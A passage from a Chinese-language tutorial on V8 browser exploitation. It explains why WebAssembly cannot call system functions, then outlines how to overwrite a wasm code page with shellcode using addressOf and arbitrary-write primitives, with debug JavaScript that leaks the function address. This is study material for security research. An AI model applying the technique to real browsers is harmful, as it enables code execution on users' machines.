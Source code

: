 经过上述过程可以发现，我们编写的C语言代码直接在js中运行了。那有没有一种可能就是，直接在wasm中写入我们的shellcode，然后浏览器调用执行，是不是不需要漏洞就能执行我们的shellcode了？

呵呵，当然是不行的，否则浏览器还不得被黑产搞死。简单举个例子，假设我们在WasmFiddle中编写C语言中需要调用系统库的最简单的hello world函数：

```assembly
#include <stdio.h>
int func() { 
  printf("hello wasm");
}
```

编译后在线运行，可以发现js抛出以下异常：

```assembly
line 2: Uncaught TypeError: WebAssembly.Instance(): Import #0 module="env" error: module is not an object or function
```

简单来说就是，wasm从安全性考虑也不可能允许通过浏览器直接调用系统函数。wasm中只能运行数学计算、图像处理等系统无关的高级语言代码。

### 2. 如何在wasm中运行shellcode

虽然我们无法直接生成wasm的shellcode，但我们可以结合漏洞将原本内存中的的wasm代码替换为shellcode，当后续调用wasm的接口时，实际上调用的就是我们的shellcode了。

那么我们利用wasm执行shellcode的思路已经基本清晰：

> 首先加载一段wasm代码到内存中
>
> 然后通过addresssOf原语找到存放wasm的内存地址
>
> 接着通过任意地址写原语用shellcode替换原本wasm的代码内容
>
> 最后调用wasm的函数接口即可触发调用shellcode

如何找到v8存放wasm代码的内存页地址呢？我们编写下面的js代码调试一下：

```assembly
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;

var f_addr = addressOf(f);
console.log("[*] leak wasm func addr: 0x" + hex(f_addr));
%SystemBreak();
```

执行得到wasm函数的接口地址：

```assembly
pwndbg> r
[*] leak wasm func addr: 0x000029c78a5e2068
```
